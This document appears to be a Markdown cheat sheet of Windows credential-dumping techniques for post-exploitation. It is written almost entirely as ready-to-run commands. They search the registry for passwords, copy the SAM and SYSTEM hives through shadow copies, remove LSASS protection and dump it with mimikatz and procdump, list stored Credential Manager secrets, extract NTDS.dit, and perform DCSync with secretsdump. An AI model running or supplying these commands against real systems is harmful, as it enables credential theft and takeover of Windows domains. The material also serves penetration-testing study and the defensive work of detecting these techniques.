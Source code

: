 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
  - Stored Credentials in system:
  ```
  vaultcmd /list
  VaultCmd /listproperties:"Web Credentials"
  VaultCmd /listcreds:"Web Credentials"
  VaultCmd /listproperties:"Windows Credentials"
  VaultCmd /listcreds:"Windows Credentials"
  cmdkey /list
  runas /savecred /user:<Domain>\Username cmd.exe
  mimikatz # sekurlsa::credman
  ```
    - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
      ```
      Import-Module C:\Tools\Get-WebCredentials.ps1
      Get-WebCredentials
      ```
# 7-NTDS:
  - **Local**:
    - we need the following files:
        - C:\Windows\NTDS\ntds.dit
        - C:\Windows\System32\config\SYSTEM
        - C:\Windows\System32\config\SECURITY
    - with Powershell:
    ```
    #Dump
    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
    #Extract
    secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
    ```
  - **Remote(DCSync)**:
  ```
  #Extract just NTDS data
  secretsdump.py -just-dc <DomainName>/<AD_Admin_User>@MACHINE_IP 
  #Extract NTLM hashes
  secretsdump.py -just-dc-ntlm <DomainName>/<AD_Admin_User>@MACHINE_IP
  ```
